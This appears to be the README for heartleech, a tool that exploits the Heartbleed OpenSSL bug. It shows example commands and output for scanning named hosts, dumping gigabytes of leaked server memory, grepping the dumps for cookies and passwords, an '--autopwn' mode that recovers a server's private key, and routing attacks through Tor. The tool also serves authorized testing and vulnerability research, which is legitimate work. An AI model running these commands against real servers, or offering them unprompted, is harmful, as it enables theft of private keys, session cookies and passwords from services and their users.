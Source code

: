 This makes the 64-bit version. If you want 32-bit, PowerPC, and/or univeral
executables, there are some extra steps to do. It starts with having a separate
directory for each version of the OpenSSL library that you need.


#Running#

Here is an example for scanning:

    ./heartleech --scan www.google.com www.cloudflarechallenge.com www.robertgraham.com oa8gs7diyfuahl.com

    --- heartleech/1.0.0e ---
    from https://github.com/robertdavidgraham/heartleech
    www.google.com:443: SAFE
    www.cloudflarechallenge.com:443: VULNERABLE
    www.robertgraham.com:443: INCONCLUSIVE: TCP connect failed
    oa8gs7diyfuahl.com:443: INCONCLUSIVE: DNS failed

A big feature of this program is that it is conclusive as to whether a target
is "SAFE" or "VULNERABLE". Otherwise, the target is marked "INCONCLUSIVE".


Here is an example of dumping bleed information:

    ./heartleech www.cloudflarechallenge.com --dump challenge.bin

    --- heartleech/1.0.0e ---
    from https://github.com/robertdavidgraham/heartleech
    7091376634 bytes downloaded

In this example, the script keeps reconnecting to the server, dumping more
and more information, sending up to a million requests. This will download
many gigabytes of information. The data is dumped to a file for later offline
analysis. Such analysis will include greping for cookies and passwords,
or searching for private certificates.

To search an offline file for a private-key, use the following example:

    ./heartleech --cert cloudflare.pem --read challenge.bin
    
where `challenge.bin` is the file you saved in the previous step, and
the `cloudflare.pem` is the certificate, which you can grab from your
browser, using the OpenSSL command-line tool, saving from Wireshark, or
through some other means.

To automate the last two steps, do the following:

    ./heartleech www.cloudflarechallenge.com --autopwn
    
This will automatically fetch the certificate from the website, then continue
downloading information until it finds a matching private key within the
heartbleed information.

This tool supports IPv6. It may actually be using IPv6 without you knowing,
if the first response from a DNS query of a domain name is an IPv6 address,
then it will use IPv6 to connection. If you want to force the tool to use
one or the other, use "--ipv4" or "--ipv6" on the command-line.

This tool support Tor Socks5n proxying. That means it sends the target domain
name through Socks to the Tor servers, which will then resolve the DNS name
for us. To enabled this use the `--proxy <hostname:port>` option. If the port
is not specified, it defaults to 9150.
